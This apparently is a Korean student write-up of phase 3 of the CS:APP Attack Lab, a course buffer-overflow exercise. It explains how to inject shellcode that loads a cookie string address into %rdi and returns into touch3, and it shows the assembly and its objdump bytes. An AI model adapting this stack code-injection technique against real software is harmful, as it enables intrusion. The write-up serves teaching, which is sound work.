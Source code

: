 ```
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

앞서 했듯이 test로 돌아가지 않고 touch3를 실행하도록 해야 한다.
touch3의 변수 sval에 cookie를 전달해줘야 한다.
그런데 sval이 string이므로 cookie를 전달할때 0x를 빼고 8자리를 문자열로 바꿔서 전달해야 한다.
sval이 첫 번째 변수이므로 이 값은 %rdi에 전달해야 하고, string은 끝에 0으로 끝난다는 것을 기억하자.

우선 cookie를 string으로 바꿔주자.
59b997fa를 아스키 코드로 바꾸면 "35 39 62 39 39 37 66 61 00"이 된다.
여기서 마지막에 00이 있는 것은 문자열의 끝임을 표시하기 위해서다.
그런데 문제를 보면 hexmatch와 srtncmp를 실행했을 때, getbuf의 스택 범위를 덮어쓸 수 있다고 한다.
만약 앞서 했듯이 getbuf의 스택에 cookie를 넣어준다면, stack overflow 때문에 cookie 값이 변경될 수 있다.
이를 해결하는 방법은 2가지 정도가 있다.
첫 번째는 exploit code에서 추가로 스택 공간을 할당하는 것이다.
예를 들어서 0x50 정도를 할당하고 cookie를 넣어주면 stack overflow로 값이 변경될 걱정은 없다.
두 번째 방법은 getbuf 보다 상위 함수인 test의 스택에 넣어주는 것이다.
이 중에서 나는 2번째 방법을 선택했다.
이는 test가 스택 공간을 할당하고 getbuf를 바로 호출하기 때문에 스택에 빈 공간이 생겨서 값을 넣기 쉽고, 스택 주소가 근접해서 cookie 값을 넣기 쉽기 때문이다.

이제 test 스택의 주소를 알아보자.
0x40196c에서의 %rsp를 알아보면 되므로, `b *0x40196c`로 브레이크를 걸고 실행 시킨다.
그리고 `p $rsp`로 값을 보면, %rsp가 0x5561dca8인 것을 알 수 있다.
이제 기계어를 만드는 부분은 phase2와 동일하다.
%rdi에 0x5561dca8을 넣고, touch3의 주소(0x4018fa)를 스택에 추가하고 리턴해주면 된다.

```
// phase3.s
movq    $0x5561dca8, %rdi
pushq   $0x4018fa
ret
```

그리고 아래 코드로 기계어로 바꿔주고 확인하자.

`gcc -c phase3.s`
`objdump -d phase3.o`

```
csapp@a859b73afac0:~/project/attack$ objdump -d phase3.o

phase3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq
```
